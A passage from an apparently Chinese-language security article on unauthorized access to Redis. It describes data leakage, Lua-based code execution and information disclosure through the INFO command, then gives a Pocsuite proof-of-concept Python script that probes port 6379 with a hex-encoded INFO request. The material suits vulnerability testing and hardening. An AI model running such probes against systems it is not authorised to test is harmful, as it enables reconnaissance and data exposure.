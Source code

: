 4、Redis 未授权的其他危害与利用
a）数据库数据泄露
Redis 作为数据库，保存着各种各样的数据，如果存在未授权访问的情况，将会导致数据的泄露，其中包含保存的用户信息等。

redis_user

b）代码执行
Redis可以嵌套Lua脚本的特性将会导致代码执行, 危害同其他服务器端的代码执行, 样例如下        一旦攻击者能够在服务器端执行任意代码, 攻击方式将会变得多且复杂, 这是非常危险的.

redis_lua

通过Lua代码攻击者可以调用 redis.sha1hex() 函数，恶意利用 Redis 服务器进行 SHA-1 的破解。

c）敏感信息泄露
通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫。

redis_info

可以看到泄露了很多 Redis 服务器的信息, 有当前 Redis 版本, 内存运行状态, 服务端个数等等敏感信息。

5、漏洞验证
可以使用Pocsuite（http://github.com/knownsec/pocsuite）执行以下的代码可以用于测试目标地址是否存在未授权的Redis服务。

#!/usr/bin/env python
# -*- coding:utf-8 -*-

import socket
import urlparse
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '89339'
    version = '1'
    author = ['Anonymous']
    vulDate = '2015-10-26'
    createDate = '2015-10-26'
    updateDate = '2015-10-26'
    references = ['http://sebug.net/vuldb/ssvid-89339']
    name = 'Redis 未授权访问 PoC'
    appPowerLink = 'http://redis.io/'
    appName = 'Redis'
    appVersion = 'All'
    vulType = 'Unauthorized access'
    desc = '''
        redis 默认不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。
    '''
    samples = ['']

    def _verify(self):
        result = {}
        payload = '\x2a\x31\x0d\x0a\x24\x34\x0d\x0a\x69\x6e\x66\x6f\x0d\x0a'
        s = socket.socket()
        socket.setdefaulttimeout(10)
        try:
            host = urlparse.urlparse(self.url).netloc
            port = 6379
            s.connect((host, port))
            s.send(payload)
            recvdata = s.recv(1024)
            if recvdata and 'redis_version' in recvdata:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['Port'] = port
        except:
            pass
        s.close()